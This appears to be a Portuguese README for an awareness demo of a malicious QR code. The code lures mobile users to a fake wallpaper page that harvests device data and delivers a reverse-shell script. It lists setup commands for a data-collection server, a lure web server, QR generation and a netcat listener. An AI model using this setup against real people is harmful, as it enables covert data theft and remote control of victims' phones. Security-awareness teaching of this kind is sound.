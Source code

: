 
# QR Code Malicioso – Demonstração Educacional

Este projeto demonstra como um atacante pode **coletar dados de um dispositivo móvel** e até **obter acesso remoto via shell reversa** com a simples interação da vítima com um QR Code — **sem root, sem app suspeito**.

> ❗ **ATENÇÃO:** Este repositório tem **fins exclusivamente educacionais**. Todo o teste foi realizado em **ambiente controlado** com dispositivos de laboratório. **Não use este código para fins maliciosos.**

---

## 📌 Objetivo

Alertar sobre os riscos de escanear QR Codes de fontes desconhecidas, mostrando na prática como um simples QR pode iniciar:

- Coleta de dados do dispositivo (user agent, idioma, bateria, localização)
- Download de script com shell reversa sem que o usuário perceba
- Conexão do atacante com o dispositivo Android (via Termux)

---

## 📁 Estrutura dos arquivos

| Arquivo       | Descrição |
|---------------|-----------|
| `index.html`  | Página falsa com imagem de “wallpaper exclusivo” e botão que coleta dados e execução do payload |
| `payload.sh`  | Script Bash que, ao ser executado, abre uma conexão reversa com o atacante |
| `coleta.py`   | Servidor Python que recebe e imprime os dados coletados via POST |
| `imagem.png`  | Imagem ilustrativa usada como isca (você pode usar qualquer imagem aqui) |

---

## ⚙️ Como usar (ambiente local)

### 1. Inicie o servidor de coleta de dados
```bash
python3 coleta.py
# Servidor rodando em http://SEU-IP:9090
```

### 2. Inicie um servidor HTTP simples
```bash
# No diretório onde está o index.html, imagem e rev.sh
python3 -m http.server 8080
```

### 3. Gere o QR Code apontando para a isca
```bash
qrencode -o final_qr.png "http://SEU-IP:8080/index.html"
```

### 4. Deixe seu Kali ouvindo
```bash
nc -lvnp 4444
```

---

## 📲 O que a vítima vê

Ao escanear o QR:
1. O celular acessa a página do "wallpaper"
2. Ao clicar no botão "Baixar", os dados do dispositivo são enviados para o servidor
3. A imagem é exibida normalmente (nada suspeito)
4. O script `payload.sh` é executado ou pode ser baixado e executado de forma manual no Termux (se a vítima for induzida a isso)

---

## ⚠️ Aviso Legal

Este projeto foi criado com a finalidade de **ensinar e alertar** sobre técnicas utilizadas em golpes reais. **Não é um tutorial de invasão**.

**Invadir sistemas sem autorização é crime**. O uso indevido desse conteúdo é de responsabilidade exclusiva do usuário.

---

## 🧠 Créditos

Desenvolvido por [Douglas Lockshield](https://www.youtube.com/@douglaslockshield) para o canal como parte de um conteúdo de conscientização em segurança da informação.
